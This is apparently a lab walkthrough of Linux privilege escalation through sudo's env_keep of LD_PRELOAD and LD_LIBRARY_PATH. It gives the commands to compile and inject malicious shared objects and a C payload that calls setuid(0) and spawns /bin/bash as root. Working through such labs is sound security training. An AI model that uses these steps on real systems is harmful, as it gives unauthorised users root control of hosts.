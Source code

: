 ```
user@debian:~/tools/sudo$ sudo -l
Matching Default entries for user on this host:
  env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

* LD\_PRELOAD and LD\_LIBRARY\_PATH are both inherited from the user's environment.
* LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first.
* Create a shared object using the code located at /home/user/tools/sudo/preload.c:
* preload.c code in another file in this repo:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

* Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

* A root shell should spawn.
* Run ldd against the apache2 program file to see which shared libraries are used by the program:

```
ldd /usr/sbin/apache2
```

* Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

* Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

* A root shell should spawn.
* Errors: Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again.
* Did it work? If not, try to figure out why not, and how the library\_path.c code could be changed to make it work.

#### Sudo -l LD\_PRELOAD Method 2

1. In command prompt type: sudo -l
2. From the output, notice that the LD\_PRELOAD environment variable is intact.

* Exploitation
*
  1. Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
